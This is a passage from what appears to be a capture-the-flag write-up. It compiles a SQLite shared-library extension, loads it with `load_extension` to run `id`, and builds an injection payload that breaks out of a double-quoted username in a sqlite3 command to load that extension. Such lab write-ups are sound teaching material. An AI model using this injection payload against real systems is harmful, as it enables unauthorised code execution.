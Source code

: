     
    
    oxdf@hacky$ gcc -shared -fPIC poc.c -o poc.so
    oxdf@hacky$ file poc.so
    poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=1d5a4c0bc52b6a08141a4c04150203fbfc155bdf, not stripped
    

Now I’ll run `sqlite3` and try to get it loaded. To run commands from the
command line, I’ll need to give it a DB to open, but it doesn’t have to
actually exist if I’m not querying any tables:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql "select 1";
    1
    

The same way, I can call `load_extension`:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql "select load_extension('./poc')";
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    

The fact that I see `id` output shows it ran my extension.

#### Injection

The program runs the following:

    
    
    /usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
    

It is putting my input in double quote marks. So to inject out of that, I need
send something like:

    
    
    ",load_extension('./poc');-- -
    

That would make the SQL:

    
    
    UPDATE accounts_customuser SET is_active=1 WHERE username="",load_extension('./poc');-- -"
    

On my machine, I’ll try that:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension("./poc");-- -aaaaasdasda';
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    1|
    

This is actually cool because it’s showing how the extension is loaded, and it
returns nothing, which becomes the empty column in the output. The junk after
the `-- -` is just to make sure the comment works.
